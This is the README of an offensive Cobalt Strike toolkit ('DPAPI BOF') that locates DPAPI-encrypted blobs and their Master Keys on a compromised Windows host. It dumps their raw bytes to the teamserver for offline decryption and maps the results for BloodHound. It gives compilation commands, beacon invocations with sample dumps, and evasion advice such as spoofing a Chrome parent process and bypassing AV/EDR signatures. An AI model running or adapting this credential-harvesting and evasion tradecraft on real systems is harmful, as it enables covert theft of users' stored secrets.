



# DPAPI BOF
A modular library of Beacon Object Files (BOFs) designed to parse DPAPI blobs and map data relationships. These tools identify blobs, locate corresponding Master Keys, and output structured CSV data suitable for graph analysis, detailing relationships between users, keys, and encrypted files.

</img>

## Disclaimer
> [!WARNING]  
> This tool is still under development and may crash your beacon. If your beacon dies, you were warned.

> [!NOTE]  
> This tool is intended for authorized security auditing and post-exploitation research only.

## BOF Library
| BOF | Arguments | Description |
|----|----|----|
| dpapi_scan | /path:c:\example\path\* [/dump:true\|false] [/csv:true\|false] | DPAPI scanner |
| dpapi_scan_light | /path:c:\example\path\* | DPAPI scanner, lightweight |
| dpapi_describe | /path:c:\example\path\* [/dump:true\|false] | DPAPI blob detailed output |

## Features
- **Scanning**: Identifies files containing DPAPI magic bytes.
- **Inspection**: The describe operation can parse a blob and output information that may provide context to the operator.
- **Master Key Mapping**: Automatically generates the expected path for the required Master Key based on the user's SID.
- **Data Exfiltration**: Extract the raw bytes from the DPAPI credential material for offline processing/decoding/cracking.
- **OpenGraph Support**: Extract the DPAPI metadata in a CSV format and transform to OpenGraph format with the Python helper script `dpapi-bof-hound.py`

## Stealth Considerations
- **No 'Fork & Run'**: Executes within the Beacon process, avoiding suspicious child process creation.
- **No Disk Artifacts**: Operates entirely in memory.
- **AV/EDR Bypass**: Minimalist design reduces the likelihood of signature-based detection and memory-scanning alerts.
- **Small Payload**: Size minimizes the RWE memory allocation signature (dpapi_scan is ~11kb while dpapi_scan_light is ~7KB).

## Installation
1. Copy `dpapi-bof-scan.c`, `dpapi-bof-scan-light.c`, `dpapi-bof-describe.c`, `utils.h`, and `beacon.h` to your build machine.
2. Compile the desired components to object files (see Compilation section).
3. Load `dpapi-bof.cna` into Cobalt Strike via the **Script Manager**.

## Compilation
```cmd
attacker@LAB-DEVBOX /cygdrive/c/Users/Administrator/Desktop/bofs
$ x86_64-w64-mingw32-gcc -c dpapi-bof-scan.c -o dpapi-bof-scan.o

attacker@LAB-DEVBOX /cygdrive/c/Users/Administrator/Desktop/bofs
$ 

attacker@LAB-DEVBOX /cygdrive/c/Users/Administrator/Desktop/bofs
$ x86_64-w64-mingw32-gcc -c dpapi-bof-scan-light.c -o dpapi-bof-scan-light.o

attacker@LAB-DEVBOX /cygdrive/c/Users/Administrator/Desktop/bofs
$ 

attacker@LAB-DEVBOX /cygdrive/c/Users/Administrator/Desktop/bofs
$ x86_64-w64-mingw32-gcc -c dpapi-bof-describe.c -o dpapi-bof-describe.o

attacker@LAB-DEVBOX /cygdrive/c/Users/Administrator/Desktop/bofs
$ 
```

## Usage
First of all, I would not recommend running this from your most cherished beacon.
I did test it, but that doesn't mean that it could crash in another environment.  
I would highly advise that you establish persistence or an alternative beacon in case the BOF crashes.

Secondly, if you want to maintain OPSEC you should run this intentionally.
That means it should not be a shotgun approach where you search for blobs starting from 'C:\'.
Doing so would be noisy and would consume CPU cycles to generate unnecessary traffic.
Target a user or application data directory for optimal usage.

Finally, since this is a BOF and not an executable, assembly, etc., we don't need to worry about 'Fork and Run'.
It is still advisable to either spoof the parent process ID or migrate to another process that won't look as suscipous when it attempts to locate DPAPI data.
If we can use the PPID of a Chrome Browser, for example, it would be normal usage for the application to parse DPAPI material.

### Invocations
#### dpapi_scan
* Scan for DPAPI blobs and output filename and Master Key GUID.
```
[03/03 03:31:32] beacon> dpapi_scan /path:C:\dev\training\dpapi\tmp\*
[03/03 03:31:32] [*] Running DPAPI Scan with: C:\dev\training\dpapi\tmp\*
[03/03 03:31:42] [+] host called home, sent: 9270 bytes
[03/03 03:31:42] [+] received output:
[+] Found DPAPI blob: C:\dev\training\dpapi\tmp\encrypted.out
[*] Machine SID: S-1-5-21-1819015816-4043004443-4211160424
[*] Master Key GUID: 90CB3C57-FCA2-46D8-B936-07ADD124DF79
- - - - - - - - - - - - - - - - -
[+] BOF Finished.
```

* Scan for DPAPI blobs and output filename, Master Key GUID, and hex bytes for any files found.
```
[03/03 03:34:10] beacon> dpapi_scan /path:C:\dev\training\dpapi\tmp\* /dump:true
[03/03 03:34:10] [*] Running DPAPI Scan with: C:\dev\training\dpapi\tmp\*
[03/03 03:34:11] [+] host called home, sent: 9270 bytes
[03/03 03:34:11] [+] received output:
[+] Found DPAPI blob: C:\dev\training\dpapi\tmp\encrypted.out
[*] Raw bytes for C:\dev\training\dpapi\tmp\encrypted.out (246 bytes):
\x01\x00\x00\x00\xD0\x8C\x9D\xDF\x01\x15\xD1\x11\x8C\x7A\x00\xC0\x4F\xC2\x97\xEB\x01\x00\x00\x00\x57\x3C\xCB\x90\xA2\xFC\xD8\x46
\xB9\x36\x07\xAD\xD1\x24\xDF\x79\x00\x00\x00\x00\x02\x00\x00\x00\x00\x00\x10\x66\x00\x00\x00\x01\x00\x00\x20\x00\x00\x00\x95\x2C
\x2F\xE4\x38\x7A\x7D\xF3\xA7\xB5\x2A\x95\xF0\xA7\x64\x34\xBB\x3E\x22\x67\x25\xCA\xAE\xFD\xCC\x2F\x23\xD8\x09\x3F\x42\x02\x00\x00
\x00\x00\x0E\x80\x00\x00\x00\x02\x00\x00\x20\x00\x00\x00\x3A\xEE\x2D\x54\xF4\x05\x5B\x95\xE4\xAE\xD3\x2D\x3E\x0C\xA3\x05\xEF\x8F
\xD8\x3C\x24\x5A\x81\x9D\xA0\x2B\xD3\x67\x61\x42\xCF\x74\x20\x00\x00\x00\xA9\x01\xF7\x37\x24\x62\xC1\xE3\xA6\x05\xBF\x4C\x7F\x6B
\xC1\x8F\xC6\xB5\xD0\xBD\x09\x36\xD6\x58\x01\xDA\x7A\x10\x31\x22\xBA\xD3\x40\x00\x00\x00\xCB\x27\x40\x74\xD6\xBA\x8D\x9C\xB5\xB4
\xDA\xB0\x4C\x85\x04\x5B\xFD\xB8\xBF\x58\xEB\x77\xD6\x3A\x3D\xAB\xA8\xE2\xBD\x3F\x49\xBC\x9C\x34\xE0\xE4\x0E\x06\x21\x9D\x0A\xFF
\x14\xB4\x21\x81\xA7\x16\xA6\x7C\xA5\xD7\xED\x75\x50\x79\x28\xCB\x2F\x11\x89\x3F\xB8\xF5
[+] End of Dump
[*] Machine SID: S-1-5-21-1819015816-4043004443-4211160424
[*] Master Key GUID: 90CB3C57-FCA2-46D8-B936-07ADD124DF79
[*] Raw bytes for C:\Users\Administrator\AppData\Roaming\Microsoft\Protect\S-1-5-21-1819015816-4043004443-4211160424-500\90CB3C57-FCA2-46D8-B936-07ADD124DF79 (468 bytes):
\x02\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x39\x00\x30\x00\x63\x00\x62\x00\x33\x00\x63\x00\x35\x00\x37\x00\x2D\x00\x66\x00
\x63\x00\x61\x00\x32\x00\x2D\x00\x34\x00\x36\x00\x64\x00\x38\x00\x2D\x00\x62\x00\x39\x00\x33\x00\x36\x00\x2D\x00\x30\x00\x37\x00
\x61\x00\x64\x00\x64\x00\x31\x00\x32\x00\x34\x00\x64\x00\x66\x00\x37\x00\x39\x00\x00\x00\x00\x00\x00\x00\x00\x00\x05\x00\x00\x00
\xB0\x00\x00\x00\x00\x00\x00\x00\x90\x00\x00\x00\x00\x00\x00\x00\x14\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00
\x02\x00\x00\x00\xC0\x37\x81\xC9\x28\x69\xF6\x93\xDF\xAD\xB0\xA4\xEA\x6A\x9C\x89\x40\x1F\x00\x00\x0E\x80\x00\x00\x10\x66\x00\x00
\xD8\x52\x30\xFA\xEB\xA3\xD8\x33\xA0\x7D\x48\x6D\xFA\xC8\xB9\xEB\x73\x63\x96\x24\xB4\x13\x13\x09\x5A\x2D\x04\xE4\xB6\xAD\xB2\x96
\x13\x7E\x69\x64\x5B\xF1\x4A\x97\x76\xC6\x54\xA0\x7C\x09\xE9\xCF\x6F\xF4\x30\xE5\xA7\xD7\x5F\x4A\x1C\xC7\x10\x25\x55\x6C\xF8\x82
\x37\x4C\xB1\x72\xEB\x3B\xCC\x25\x94\xF5\x33\xAD\x5A\x9A\xDF\x01\xB2\xB4\x42\x78\xF2\xCE\xD5\x79\x3E\x3A\x54\x89\x32\x2D\xF9\x0C
\x27\x97\x4E\x3C\x82\x97\x26\x4E\x72\xEA\xE0\xFC\xD4\xD3\x0D\x7C\x17\xF7\x8A\x91\x9F\xB9\x9A\xB5\x06\xB9\xC3\x65\x5B\x20\x54\xDF
\x36\xE9\xBA\x37\xD0\x27\xE9\x1D\x5F\x64\x47\x88\x7C\x81\x0D\x8B\x02\x00\x00\x00\x00\x94\x1E\xC6\x2F\x90\x05\x61\x85\xB9\xC3\x6D
\x31\x1D\x15\xF7\x40\x1F\x00\x00\x0E\x80\x00\x00\x10\x66\x00\x00\x80\x3D\x66\x0C\x63\xCE\xE5\x0B\x0B\xFE\x3E\x32\xAE\x80\x64\xF3
\x39\x62\x15\x5A\xAC\x54\x1C\xF6\x64\x66\x4F\x0B\x3F\xE1\xB3\x3E\x55\x9C\xC0\x2D\x09\xEB\x85\x31\x2F\xB8\x9F\x3C\x3F\xAA\xB4\x75
\xCD\x3F\x6B\x4D\x1F\x3D\x49\x83\xA7\xCD\x85\xF9\x03\xC2\x10\xF8\x40\x6B\xB0\x98\x5E\x0F\xD8\x7D\x20\xD4\x9D\x1F\xD1\x82\xAD\xE7
\x3B\x52\xB0\x80\xF3\x86\x5F\x79\x9C\x6A\x88\xC1\x05\x94\x60\x86\xA5\x08\x1B\x26\xCB\x94\x7B\x2E\xFB\xB2\x01\x02\x59\xDC\x1F\xF7
\x03\x00\x00\x00\x1D\x47\xEC\xCE\xFD\x0A\x64\x4A\x88\xC2\x24\xB5\x84\xB2\x3A\xBC
[+] End of Dump
- - - - - - - - - - - - - - - - -
[+] BOF Finished.
```

* Scan for DPAPI blobs and output filename, Master Key GUID, and hex bytes and CSV data for any files found.
```
[03/03 03:34:34] beacon> dpapi_scan /path:C:\dev\training\dpapi\tmp\* /dump:true /csv:true
[03/03 03:34:34] [*] Running DPAPI Scan with: C:\dev\training\dpapi\tmp\*
[03/03 03:34:35] [+] host called home, sent: 9270 bytes
[03/03 03:34:35] [+] received output:
[+] Found DPAPI blob: C:\dev\training\dpapi\tmp\encrypted.out
[*] Raw bytes for C:\dev\training\dpapi\tmp\encrypted.out (246 bytes):
\x01\x00\x00\x00\xD0\x8C\x9D\xDF\x01\x15\xD1\x11\x8C\x7A\x00\xC0\x4F\xC2\x97\xEB\x01\x00\x00\x00\x57\x3C\xCB\x90\xA2\xFC\xD8\x46
\xB9\x36\x07\xAD\xD1\x24\xDF\x79\x00\x00\x00\x00\x02\x00\x00\x00\x00\x00\x10\x66\x00\x00\x00\x01\x00\x00\x20\x00\x00\x00\x95\x2C
\x2F\xE4\x38\x7A\x7D\xF3\xA7\xB5\x2A\x95\xF0\xA7\x64\x34\xBB\x3E\x22\x67\x25\xCA\xAE\xFD\xCC\x2F\x23\xD8\x09\x3F\x42\x02\x00\x00
\x00\x00\x0E\x80\x00\x00\x00\x02\x00\x00\x20\x00\x00\x00\x3A\xEE\x2D\x54\xF4\x05\x5B\x95\xE4\xAE\xD3\x2D\x3E\x0C\xA3\x05\xEF\x8F
\xD8\x3C\x24\x5A\x81\x9D\xA0\x2B\xD3\x67\x61\x42\xCF\x74\x20\x00\x00\x00\xA9\x01\xF7\x37\x24\x62\xC1\xE3\xA6\x05\xBF\x4C\x7F\x6B
\xC1\x8F\xC6\xB5\xD0\xBD\x09\x36\xD6\x58\x01\xDA\x7A\x10\x31\x22\xBA\xD3\x40\x00\x00\x00\xCB\x27\x40\x74\xD6\xBA\x8D\x9C\xB5\xB4
\xDA\xB0\x4C\x85\x04\x5B\xFD\xB8\xBF\x58\xEB\x77\xD6\x3A\x3D\xAB\xA8\xE2\xBD\x3F\x49\xBC\x9C\x34\xE0\xE4\x0E\x06\x21\x9D\x0A\xFF
\x14\xB4\x21\x81\xA7\x16\xA6\x7C\xA5\xD7\xED\x75\x50\x79\x28\xCB\x2F\x11\x89\x3F\xB8\xF5
[+] End of Dump
[*] Machine SID: S-1-5-21-1819015816-4043004443-4211160424
[*] Master Key GUID: 90CB3C57-FCA2-46D8-B936-07ADD124DF79
[*] Raw bytes for C:\Users\Administrator\AppData\Roaming\Microsoft\Protect\S-1-5-21-1819015816-4043004443-4211160424-500\90CB3C57-FCA2-46D8-B936-07ADD124DF79 (468 bytes):
\x02\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x39\x00\x30\x00\x63\x00\x62\x00\x33\x00\x63\x00\x35\x00\x37\x00\x2D\x00\x66\x00
\x63\x00\x61\x00\x32\x00\x2D\x00\x34\x00\x36\x00\x64\x00\x38\x00\x2D\x00\x62\x00\x39\x00\x33\x00\x36\x00\x2D\x00\x30\x00\x37\x00
\x61\x00\x64\x00\x64\x00\x31\x00\x32\x00\x34\x00\x64\x00\x66\x00\x37\x00\x39\x00\x00\x00\x00\x00\x00\x00\x00\x00\x05\x00\x00\x00
\xB0\x00\x00\x00\x00\x00\x00\x00\x90\x00\x00\x00\x00\x00\x00\x00\x14\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00
\x02\x00\x00\x00\xC0\x37\x81\xC9\x28\x69\xF6\x93\xDF\xAD\xB0\xA4\xEA\x6A\x9C\x89\x40\x1F\x00\x00\x0E\x80\x00\x00\x10\x66\x00\x00
\xD8\x52\x30\xFA\xEB\xA3\xD8\x33\xA0\x7D\x48\x6D\xFA\xC8\xB9\xEB\x73\x63\x96\x24\xB4\x13\x13\x09\x5A\x2D\x04\xE4\xB6\xAD\xB2\x96
\x13\x7E\x69\x64\x5B\xF1\x4A\x97\x76\xC6\x54\xA0\x7C\x09\xE9\xCF\x6F\xF4\x30\xE5\xA7\xD7\x5F\x4A\x1C\xC7\x10\x25\x55\x6C\xF8\x82
\x37\x4C\xB1\x72\xEB\x3B\xCC\x25\x94\xF5\x33\xAD\x5A\x9A\xDF\x01\xB2\xB4\x42\x78\xF2\xCE\xD5\x79\x3E\x3A\x54\x89\x32\x2D\xF9\x0C
\x27\x97\x4E\x3C\x82\x97\x26\x4E\x72\xEA\xE0\xFC\xD4\xD3\x0D\x7C\x17\xF7\x8A\x91\x9F\xB9\x9A\xB5\x06\xB9\xC3\x65\x5B\x20\x54\xDF
\x36\xE9\xBA\x37\xD0\x27\xE9\x1D\x5F\x64\x47\x88\x7C\x81\x0D\x8B\x02\x00\x00\x00\x00\x94\x1E\xC6\x2F\x90\x05\x61\x85\xB9\xC3\x6D
\x31\x1D\x15\xF7\x40\x1F\x00\x00\x0E\x80\x00\x00\x10\x66\x00\x00\x80\x3D\x66\x0C\x63\xCE\xE5\x0B\x0B\xFE\x3E\x32\xAE\x80\x64\xF3
\x39\x62\x15\x5A\xAC\x54\x1C\xF6\x64\x66\x4F\x0B\x3F\xE1\xB3\x3E\x55\x9C\xC0\x2D\x09\xEB\x85\x31\x2F\xB8\x9F\x3C\x3F\xAA\xB4\x75
\xCD\x3F\x6B\x4D\x1F\x3D\x49\x83\xA7\xCD\x85\xF9\x03\xC2\x10\xF8\x40\x6B\xB0\x98\x5E\x0F\xD8\x7D\x20\xD4\x9D\x1F\xD1\x82\xAD\xE7
\x3B\x52\xB0\x80\xF3\x86\x5F\x79\x9C\x6A\x88\xC1\x05\x94\x60\x86\xA5\x08\x1B\x26\xCB\x94\x7B\x2E\xFB\xB2\x01\x02\x59\xDC\x1F\xF7
\x03\x00\x00\x00\x1D\x47\xEC\xCE\xFD\x0A\x64\x4A\x88\xC2\x24\xB5\x84\xB2\x3A\xBC
[+] End of Dump
node,Machine,S-1-5-21-1819015816-4043004443-4211160424,S-1-5-21-1819015816-4043004443-4211160424
node,User,S-1-5-21-1819015816-4043004443-4211160424-500,S-1-5-21-1819015816-4043004443-4211160424-500
node,DPAPIMasterKey,90CB3C57-FCA2-46D8-B936-07ADD124DF79,90CB3C57-FCA2-46D8-B936-07ADD124DF79
node,DPAPIBlob,C:\dev\training\dpapi\tmp\encrypted.out,encrypted.out,None
edge,HasProfile,S-1-5-21-1819015816-4043004443-4211160424,S-1-5-21-1819015816-4043004443-4211160424-500
edge,OwnsKey,S-1-5-21-1819015816-4043004443-4211160424-500,90CB3C57-FCA2-46D8-B936-07ADD124DF79
edge,EncryptedWith,C:\dev\training\dpapi\tmp\encrypted.out,90CB3C57-FCA2-46D8-B936-07ADD124DF79
- - - - - - - - - - - - - - - - -
[+] BOF Finished.
```

#### dpapi_scan_light
* Scan for DPAPI blobs and output results
```
[03/03 03:28:06] beacon> dpapi_scan_light /path:C:\dev\training\dpapi\tmp\*
[03/03 03:28:06] [*] Running DPAPI Scan Light with: C:\dev\training\dpapi\tmp\*
[03/03 03:28:19] [+] host called home, sent: 5937 bytes
[03/03 03:28:19] [+] received output:
[+] Found DPAPI blob: C:\dev\training\dpapi\tmp\encrypted-copy.out
[*] Master Key GUID: 90CB3C57-FCA2-46D8-B936-07ADD124DF79
- - - - - - - - - - - - - - - - -
[+] Found DPAPI blob: C:\dev\training\dpapi\tmp\encrypted.out
[*] Master Key GUID: 90CB3C57-FCA2-46D8-B936-07ADD124DF79
- - - - - - - - - - - - - - - - -
[+] BOF Finished.
```

#### dpapi_describe
Printing the details about a specific blob with ```dpapi_describe```
```
[02/08 03:33:26] beacon> dpapi_describe /path:c:\dev\training\dpapi\tmp\encrypted.out
[02/08 03:33:26] [*] Running DPAPI Scan against: c:\dev\training\dpapi\tmp\encrypted.out
[02/08 03:33:33] [+] host called home, sent: 7855 bytes
[02/08 03:33:33] [+] received output:
[*] Blob Structure for: c:\dev\training\dpapi\tmp\encrypted.out
dwVersion:           00000001
dwMasterKeyVersion:  1
guidMasterKey:       90CB3C57-FCA2-46D8-B936-07ADD124DF79
dwFlags:             00000000
szDescription:        (2 bytes)
algCrypt:            00006610
dwAlgCryptLen:       256
dwSaltLen:           32
dwHmacKeyLen:        0
algHash:             0000800E
dwAlgHashLen:        512
dwDataLen:           32
dwSignLen:           32
[+] End of Blob Analysis
--------------------------------
[+] BOF Finished.
```

## Technical Details
The BOF uses Dynamic Function Resolution (DFR) to interact with Windows APIs, ensuring it remains small and memory-resident without touching the disk (besides the files it reads). It uses the BeaconDownloadFile API to securely sync files back to the Teamserver.

### Summary of the Flow
1. **The BOF** finds a blob, parses the header, and dumps the raw bytes.
2. **The BOF** identifies the **Master Key GUID**, locates it and dumps the raw bytes.
4. **The Operator** uses a tool like Mimikatz or a Python script offline to decrypt secret.

## BloodHound OpenGraph Support
1. Generate CSV output from dpapi_scan.
2. Copy CSV output(s) from the Beacon console and save to a file.
3. Use `dpapi-bof-hound.py` to transform into OpenGraph format.
4. Upload the output JSON to BloodHound for analysis.

<table border="0">
  <tr>
    <td>
      
      <p align="center"><b>DPAPI-BOF</b><br/>CSV Data Output</p>
    </td>
    <td>
      
      <p align="center"><b>BloodHound DPAPI</b><br/>Visualizing DPAPI relationships</p>
    </td>
  </tr>
</table>

```
mystuff\DPAPI-BOF>python dpapi-bof-hound.py dpapi-data.csv
Usage: python convert.py <input_csv> <output_json>

mystuff\DPAPI-BOF>
```

```cmd
mystuff\DPAPI-BOF>python dpapi-bof-hound.py dpapi-data.csv dpapi-data.json
Successfully converted dpapi-data.csv to dpapi-data.json

mystuff\DPAPI-BOF>

mystuff\DPAPI-BOF>type dpapi-data.json
{
    "metadata": {
        "source_kind": "DPAPI"
    },
    "graph": {
        "nodes": [
            {
                "id": "S-1-5-21-1819015816-4043004443-4211160424",
                "kinds": [
                    "Machine"
                ],
                "properties": {
                    "name": "S-1-5-21-1819015816-4043004443-4211160424"
                }
            },
            {
                "id": "S-1-5-21-1819015816-4043004443-4211160424-500",
                "kinds": [
                    "User"
                ],
                "properties": {
                    "name": "S-1-5-21-1819015816-4043004443-4211160424-500"
                }
            },
            {
                "id": "90CB3C57-FCA2-46D8-B936-07ADD124DF79",
                "kinds": [
                    "DPAPIMasterKey"
                ],
                "properties": {
                    "name": "90CB3C57-FCA2-46D8-B936-07ADD124DF79"
                }
            },
            {
                "id": "C:\\dev\\training\\dpapi\\tmp\\encrypted.out",
                "kinds": [
                    "DPAPIBlob"
                ],
                "properties": {
                    "name": "encrypted.out",
                    "description": "None"
                }
            }
        ],
        "edges": [
            {
                "start": {
                    "match_by": "id",
                    "value": "S-1-5-21-1819015816-4043004443-4211160424"
                },
                "end": {
                    "match_by": "id",
                    "value": "S-1-5-21-1819015816-4043004443-4211160424-500"
                },
                "kind": "HasProfile"
            },
            {
                "start": {
                    "match_by": "id",
                    "value": "S-1-5-21-1819015816-4043004443-4211160424-500"
                },
                "end": {
                    "match_by": "id",
                    "value": "90CB3C57-FCA2-46D8-B936-07ADD124DF79"
                },
                "kind": "OwnsKey"
            },
            {
                "start": {
                    "match_by": "id",
                    "value": "C:\\dev\\training\\dpapi\\tmp\\encrypted.out"
                },
                "end": {
                    "match_by": "id",
                    "value": "90CB3C57-FCA2-46D8-B936-07ADD124DF79"
                },
                "kind": "EncryptedWith"
            }
        ]
    }
}
mystuff\DPAPI-BOF>
```

## Known Limitations
1. ~~There is a hard limit on the output buffer. I really need to change this approach.~~
2. This only searches for blobs stored in a binary format and won't find data encoded with other methods, like XML or Base64.
3. We don't want to load the entirety of each file to check for DPAPI content, so the code checks the first 1024 bytes.
4. Since the focus is OPSEC, the tool only resolves Master Key files from the current user profile, but could utilize a flag to enable a wider search.

## Future Improvements
- [ ] **Recursive Scanning**: Expanding the functionality to scan sub-directories.
- [ ] **Master Key Resolution**: Flag to enable master key resolution across all user profiles.
- [ ] **File Browser Integration:** Add the ability to scan a directory from the context menu in the File Browser.
- [ ] **Text-Based Hunting:** Add the ability to find the magic bytes in plaintext.
- [ ] **Artifact Download:** Add the ability to automatically download any blobs and Master Key files to the CS Teamserver.
- [x] ~~**Enhanced Output:** Rework the output to use a dynamic buffer instead of a fixed global variable.~~ DONE 2/6/2026
- [ ] **Registry Hunting:** Ability to hunt and extract DPAPI data from the registry.
- [ ] **NdrClientCall3 Decryption**: Ability to decrypt secrets using the NdrClientCall3 approach from EvilBytecode
[EvilBytecode - CustomDpapi](https://github.com/EvilBytecode/CustomDpapi)